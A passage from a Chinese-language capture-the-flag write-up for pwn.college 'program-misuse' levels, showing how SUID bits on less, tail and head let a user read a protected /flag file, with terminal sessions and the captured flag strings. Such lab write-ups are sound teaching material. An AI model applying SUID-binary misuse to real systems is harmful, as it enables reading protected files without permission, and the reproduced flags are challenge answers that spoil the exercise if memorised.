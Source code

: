 ```
```
这次是用`less`
```
hacker@program-misuse-level-3:/challenge$ less /flag
pwn.college{onJWxeGXCk8o-LqXlLemr-Xzk2W.0VN0EDL2QjMyMzW}
/flag (END)

```
less比more好用，记得使用q退出

## level4 Lets you directly read the flag!

```
hacker@program-misuse-level-4:/challenge$ ./babysuid_level4
Welcome to ./babysuid_level4!

This challenge is part of a series of programs that
exposes you to very simple programs that let you directly read the flag.

I just set the SUID bit on /usr/bin/tail.
Try to use it to read the flag!

IMPORTANT: make sure to run me (./babysuid_level4) every time that you restart
this challenge container to make sure that I set the SUID bit on /usr/bin/tail!
hacker@program-misuse-level-4:/challenge$
```
用`tail`

```
hacker@program-misuse-level-4:/challenge$ tail /flag
pwn.college{8A8n6zzy-sUTn179ZADopx1lzFV.0lN0EDL2QjMyMzW}
hacker@program-misuse-level-4:/challenge$
```
我现在猜下一个用head

## level5 Lets you directly read the flag!

```
hacker@program-misuse-level-5:~$ sh file.sh
Welcome to ./babysuid_level5!

This challenge is part of a series of programs that
exposes you to very simple programs that let you directly read the flag.

I just set the SUID bit on /usr/bin/head.
Try to use it to read the flag!

IMPORTANT: make sure to run me (./babysuid_level5) every time that you restart
this challenge container to make sure that I set the SUID bit on /usr/bin/head!
hacker@program-misuse-level-5:~$
```
果然用head
```
hacker@program-misuse-level-5:~$ head /flag
pwn.college{wVl3wFV0tMkY6rAFaMWKvEoOt2R.01N0EDL2QjMyMzW}
hacker@program-misuse-level-5:~$
```
